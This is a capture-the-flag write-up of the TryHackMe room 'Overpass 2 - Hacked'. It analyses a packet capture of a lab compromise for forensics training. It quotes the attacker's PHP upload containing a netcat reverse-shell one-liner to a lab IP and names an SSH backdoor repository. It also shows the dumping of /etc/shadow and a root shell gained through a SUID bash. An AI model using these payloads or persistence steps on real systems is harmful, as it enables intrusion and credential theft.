 ```yaml
---
title: "Overpass 2 - Hacked"
date: 2023-07-31 20:50:00 +0300
image: /assets/img/Posts/overpass2.png
categories: [Tryhackme, Easy]
tags: [Network forensics, wireshark, SUID, backdoor, ssh, pcap, packet capture]
---
```


| Room       | [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)    |
| ---------- | -------------------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)                       |
| Difficulty | Easy                                                                 |

# Let's get started
This room focuses on analyzing the packet capture file that was saved by the soc team after noticing suspicious traffic in their network. It is aimed to help the learner grow their skills in network forensics, one of the major categories of the digital forensics domain.

Forensics skills will be vital to help uncover the attack vector the attacker used, at which endpoint, the exploit used, status of the attack and the impact the attack had to the organization.

## Forensics - Analyse the PCAP
We are presented with the PCAP file that we believe captured the suspicious traffic as highlighted. It is our duty to analyse it to understand the attack. We are going to use wireshark to open and analyse the traffic. 
But first we need to check the integrity of the file. We are being provided with the MD5sum of the file, so we are going to reproduce the MD5Sum and compare to see if it is original, not modified.

>NOTE: It is part of forensics to always confirm the integrity of the files or data shared.
{: .prompt-info }
It is evident that the hash we got after generating the MD5Sum of the file looks similar to the hash provided in the TryHackMe platform.

![image](/assets/img/Posts/overpass2/md5sum.png)

We proceed to opening the file in wireshark to begin our analysis.

![image](/assets/img/Posts/overpass2/wireshark-1.png)

From the look of things from the above image, we see there are several TCP and HTTP requests. Checking through clearly we see a get request made from host ip 192.168.170.145 on the /development directory on the server that is probably running on the host 192.128.170.159.

![image](/assets/img/Posts/overpass2/wireshark.png)

From the IPs of the Hosts captured we can conclude that the victim and the attacker were on the same network. 
Going forward we saw here there is also a POST request made on the directory /development/upload.php, we proceed to checking that particular packet. We do so by right-clicking then  follow->HTTP stream.

![image](/assets/img/Posts/overpass2/analysis-2.png)

Checking on the nature of the request, we see that the attacker uploaded uploaded a file payload.php  that had the contents:
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
From the file extension and the contents of the file, we can tell that the attacker did upload a `php` code the used `exec()` which can be used to execute the system commands. In this case the command  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f` spawns a reverse shell and forwards to the attacker IP provided in the payload `192.168.170.145` to the listening port that the attacker provided `4242`.

After making this `POST` request, the attacker proceeded to do a `GET` request which was meant to execute the `payload.php` file uploaded with an intention of getting a reverse connection from the victim machine.

![image](/assets/img/Posts/overpass2/analysis-3.png)

After GETting the `payload.php` file, we see some trailing `TCP` connection to the port `4242` which had earlier been specified on the payload, which signifies the reverse connection was successful.
We can confirm by following one of `TCP` packets.

![image](/assets/img/Posts/overpass2/analysis-4.png)

The attacker got a shell onto the server as the www-data user, executed the python command `python3 -c ‘import pty;pty.spawn(“/bin/bash”)’` to stabilize the shell.
Then switched the user using the command su james to change the user to james and provided the password which we can see is `whenevernoteartinstant`.
From here we see the attacker proceeded to run the command `sudo -l` to list the commands or binaries that the user james can run with sudo. We find that the attacker can run `ALL` the commands in the server using the user james (BAD PRACTICE).
`(ALL : ALL) ALL`
After seeing that the attacker directly went to dump the user password hashes from the /etc/shadow file.

![image](/assets/img/Posts/overpass2/analysis-pass.png)

Then goes on to cloning the SSH backdoor onto the server obviously to maintain their stay on the server, technically we say persistence:).

![image](/assets/img/Posts/overpass2/analysis-clone.png)

We can try to access the GitHub repository the attacker cloned (SSH backdoor) from the url https://github.com/NinjaJc01/ssh-backdoor. The payload is written in `go` language.

![image](/assets/img/Posts/overpass2/analysis-github-repo.png)

Checking through the main function of the `main.go` file, we find a clue of what the code is doing. The backdoor tends to open the port `2222` for ssh connection to the attackers machine. then we see a default hash at the top and the different arguments that the attacker could use to deploy the backdoor.

![image](/assets/img/Posts/overpass2/analysis-codereview.png)

Going down the code we find there is a hardcoded string of what looks like a salt on the hash of the hash the attacker provides.

![image](/assets/img/Posts/overpass2/analysis-salt.png)

Going back to the packet capture analysis, we find that the attacker ran the backdoor with the arguments -a which as we have seen helps him enter his own password hash.
attacker hash from the pcap file: 
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
![image](/assets/img/Posts/overpass2/analysis-salt-attacker.png)\

With the hash and the salt we can proceed to crack them using `hashcat` to see the password the attacker set in his backdoor.

![image](/assets/img/Posts/overpass2/pass.png)

## Attack - Get back in! 
Now that we have the SSH credentials of the attacker backdoor, we can try to log into the server.
`SSH port - 2222`
Trying to login we get this error.

![image](/assets/img/Posts/overpass2/ssh-issue.png)

On a quick google search we get a solution to the problem. we add `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` to our ssh command and we get a shell.

![image](/assets/img/Posts/overpass2/ssh-issue-solver.png)

![image](/assets/img/Posts/overpass2/shell.png)

we access the user flag in `james’s home` directory.

![image](/assets/img/Posts/overpass2/userflag.png)

Re-running the `sudo -l` command, on the server since we saw before on the captured traffic that james could run `ALL` the commands with sudo. It seems it is not the case anymore.
Running a `ls -la` command on james’s home directory, we find  a file `.suid_bash` with a `SUID bit`, running it with `-p` gives us the root shell.

![image](/assets/img/Posts/overpass2/suid-blog.png)

![image](/assets/img/Posts/overpass2/rootflag.png)

Enjoy :)